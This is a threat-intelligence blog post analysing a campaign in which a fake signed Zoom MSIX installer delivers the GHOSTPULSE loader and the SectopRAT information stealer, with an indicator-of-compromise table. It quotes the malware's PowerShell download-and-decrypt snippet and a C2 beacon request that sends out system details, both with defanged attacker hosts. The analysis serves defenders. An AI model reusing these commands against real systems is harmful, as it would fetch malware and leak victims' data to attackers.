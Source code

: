 ```yaml
---
layout: post
title: SectopRAT Buffet with a side of GHOSTPULSE
date: 2024-05-08 22:00:00 +1030
description: 
image: 
category:
  - Malware Analysis
  - Remote Access Trojan (RAT)
tags:
  - malware_analysis
  - sectoprat
  - ghostpulse
  - msix
  - cybr_culture
  - rat
  - c2
mermaid: true
img_path: /assets/img/
pin: true
---
```

![Zoom Installer](cyber_rat_tophat_700x300.jpg){: .shadow width="1200" height="630"}

---
## IN THE BEGINNING

Just another day in paradise with a fresh cup of coffee in hand, my Pomodoro clock ticking away 25 minutes, and the diffuser gently releasing its aroma. Fast forward a few and we are now looking at a campaign using signed MSIX App Packages disguised as legitimate installers for popular applications — Zoom Installer, in this case. Unbeknownst to the unsuspecting target, these seemingly innocent MSIX app packages conceal a malicious PowerShell script, setting off the multi-stage stealthy GHOSTPULSE loader, ultimately leading to the injection of a SectopRAT payload, a voracious .NET information stealer (aka ArechClient2), into `MSBuild.exe`{: .filepath}.

As described by MSFT, *"MSIX is a Windows app package format that combines the best features of MSI, .appx, App-V, and ClickOnce to provide a modern and reliable packaging experience"*. In Windows 10 and above, all applications are required to be signed with a valid code signing certificate. Regrettably, cheeky threat actors manage to acquire these certificates, and it's not uncommon for them to be traded in the deepest corners of the web.

Upon double-clicking `Zoom-x64.msix`{: .filepath}, an installation window promptly appears, mirroring the familiar interface of most other installers that users are accustomed to.

![Zoom Installer Window](Zoom-x64_execution.png){: .shadow }
_Zoom Installer Window - MSIX_

Upon the user's selection of `Install`, the latent PowerShell `script 2011_allso.ps1`{: .filepath} springs into action. It promptly initiates an initial GET request to the Command and Control (C2) server, signalling the commencement and concurrently transmitting system information from the compromised device—all cleverly encapsulated within the URL (Antivirus, Domain, Operating System). Without digging into the ins and outs of PSF, the malicious PowerShell script to be executed is defined within `config.json`{: .filepath} that is contained within the MSIX package.

![MSIX config](config_script.png){: .shadow }
_MSIX config.json_

**Example GET Request to the C2 Server:**
```console
hxxps[://]3010cars[.]xyz/?status=start&av=Windows Defender&domain=JUICYPANTS&os=Microsoft+Windows+10
```

## THE LATENT POWERSHELL SCRIPT
Venturing further into the intricacies of the PowerShell script, it becomes evident that the primary goal of `2011_allso.ps1`{: .filepath} is to retrieve a GPG-encrypted file named `robo-claim[.]site/order/allso.tar.gpg`{: .filepath}. Following this, the script decrypts the file and proceeds to execute `TPAutoConnect.exe`{: .filepath}, cunningly disguised as a renamed `vmtoolsd.exe`{: .filepath} binary. This binary, a featured component of the VMware user process, facilitates essential features like copy-paste, drag-and-drop within the VMware environment. A curious observer would also catch the passphrase `putin` being used for decryption.

![PowerShell Script Flow](script_flow.png){: .shadow }
_PowerShell Script Breakout_

**PowerShell Snippet - Retrieiving and Decrypting SectopRAT:**
```powershell
$url = "hxxps[://]robo-claim[.]site/order/allso.tar.gpg"
$outputPath = "$env:APPDATA\$xxx.gpg"
Invoke-WebRequest -Uri $url -OutFile $outputPath
echo 'putin' | .$env:APPDATA\gpg.exe --batch --yes --passphrase-fd 0 --decrypt --output $env:APPDATA\$xxx.rar $env:APPDATA\$xxx.gpg
```

![VMware Digital Signature](vmware_digital_sig.png){: .shadow }
_VMware Digital Signature_

At this stage, it is fair to asses that the `TPAutoConnect.exe (vmtoolsd.exe)`{: .filepath} binary may be being used to perform some form of sideloading. 

## DECRYPTING THE TAR ARCHIVE

Decryption of the TAR file spills the beans - inside, we've got `TPAutoConnect.exe (vmtoolsd.exe)`{: .filepath}, a bunch of DLLs, and the unexpected guest, `fibrolite.dwg`{: .filepath}. Doesn't quite fit the Zoom Installer vibe, right? Now, check out `fibrolite.dwg`{: .filepath} magic numbers – `89 50 4E 47 0D 0A 1A 0A`, initially screaming a .png graphic file. But, hold your horses. When `TPAutoConnect.exe`{: .filepath} takes the stage, it decrypts `fibrolite.dwg`{: .filepath} and pulls off a sneaky move by creating a suspended `MSBuild.exe`{: .filepath} process. This innocent-looking process, though, gets the VIP treatment with a SectopRAT injection. Big shoutout to the folks at [Elastic Security Labs](https://www.elastic.co/security-labs/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks); they've dissected GHOSTPULSE and its stages like a boss. If you're itching for a deeper dive, their breakdown is a must-read. Everything mentioned here is like the calling card of the same sneaky campaign.

A sanity check of all the .DLL's with Sigcheck we see that digital signature of `glib-2.0.dll`{: .filepath} could not be verified. This could indicate tampering and/or corruption, ultimately the integrity of the DLL is not guaranteed; most likely our sideloading specimen

![Sigcheck](sigcheck.png){: .shadow }
_Sigcheck Signature could not be verified_

## THE JUICE - SECTOPRAT

Using the [Ghost Pulse Payload Extractor](https://github.com/elastic/labs-releases/tree/main/tools/ghostpulse), we are able to extract the payload from the encrypted GHOSTPULSE file.

![Ghostpulse Payload Extractor](ghost_pulse_extractor.png){: .shadow width="1200"}
_Ghostpulse Payload Extractor_

![PEStudio](pe_studio.png){: .shadow width="1200"}
_PEStudio - Ghost Pulse Payload_

Diving into the .NET binary without de-obfuscating, we can clearly see the information stealing capabilities of SectopRAT; scanning for Browsers, Wallets, Accounts, Processes, and files to name a few.

![SectopRAT Scan Critera](scan_details_criteria.png){: .shadow }
_SectopRAT Scan Criteria_

![SectopRAT Scan Arguments](scan_details_args.png){: .shadow }
_SectopRAT Scan Arguments_

When executed the malware creates the suspended child process `MSBuild.exe`{: .filepath}. This process appears to be hollowed out with the SectopRAT payload. A couple of indicators include a hanging `MSBuild.exe`{: .filepath} process with no arguments,  the `Current directory` path of `MSBuild.exe`{: .filepath} being the path the malware was executed from, and by scanning running processes with pe-sieve (developed by @hasherezade), it identified that the PE `MSBuild.exe`{: .filepath} was replaced, reference by the `is_pe_replaced: 1` result. And of course, simply dumping this process and doing analysis would reveal much of what has already been mentioned.

Of note, as part of the encryption process, the environment variable `KKHIECNPOYLCZOXDETZX` is created which points to an encrypted file at `%LOCALAPPDATA%\Temp\232135f6`{: .filepath}

![SectopRAT Scan Arguments](hollow_msbuild.png){: .shadow }
_Possible Process Hollowing of a suspended process_

In this sample, the final payload calls out to `hxxps[:]//pastebin[.]com/raw/cLika3dt`{: .filepath} which contained the C2 address `138.201.125[.]92`{: .filepath}. This C2 was also identified in the network connections upon execution of the malware. along with the string `AfkSystem`. Both indicators indicative of other previously reported SectopRAT samples in the wild.

![Pastebin](pastebin.png){: .shadow }
_C2 Address referenced within Pastebin_

![C2](network_connection.png){: .shadow }
_C2 Network Connections_
  
And lastly, to ensure it lives to fight another day the malware establishes persistence by creating the startup item `Dby_control.lnk`{: .filepath} which points to the original `TPAutoConnect.exe`{: .filepath} mentioned earlier.


---
## OBSERVATIONS

| Context            | Observable                                                                                                       | Indicator Type |
| ------------------ | ---------------------------------------------------------------------------------------------------------------- | -------------- |
| C2 within Pastebin | 138.201.125[.]92:15647                                                                                           | IP-v4          |
| Pastebin           | hxxps[://]pastebin[.]com/raw/cLika3dt                                                                            | URL            |
| PS Script          | 2011_allso.ps1<br>**SHA256:** c6f8edcb9bff1efe62dcaddc90c27df67bf3f64d951a5f08089f2f1c5a7981d1                   | File           |
| Persistence        | %AppData%\Microsoft\Windows\Start Menu\Programs\Startup\Dby_control.lnk                                          | File           |
| Persistence        | TPAutoConnect.exe (vmtoolsd.exe)<br>**SHA256:** bf933ccf86c55fc328e343b55dbf2e8ebd528e8a0a54f8f659cd0d4b4f261f26 | File           |
| SecropRAT          | fibrolite.dwg<br>**SHA256:** f88d3d755ed1d8e79165c74c2c8fc7eefc8df2e909be73adfe3822f65107e5cc                    | File           |
| MSIX               | Zoom-x64.msix<br>**SHA256:** 2ea9ab31124e6639b635ef605473d433b99536d6465e23ab8f0375db35244dce                    | File           |
| Encryped Archive   | allso.tar.gpg<br>**SHA256:** d92178fb77200cabb9a7b36f0b93bcb7f0edd47acaafabca4a420a68f0eefcfd                    | File           |
| Sideload DLL       | glib-2.0.dll<br>**SHA256:** 32ef20dbf95940528359604947d2ed36bc81e2832000ee32af375e0fb3821684                     | File           |





---
### References:

* https://github.com/elastic/labs-releases/tree/main/nightMARE
* https://www.elastic.co/security-labs/ghostpulse-haunts-victims-using-defense-evasion-bag-o-tricks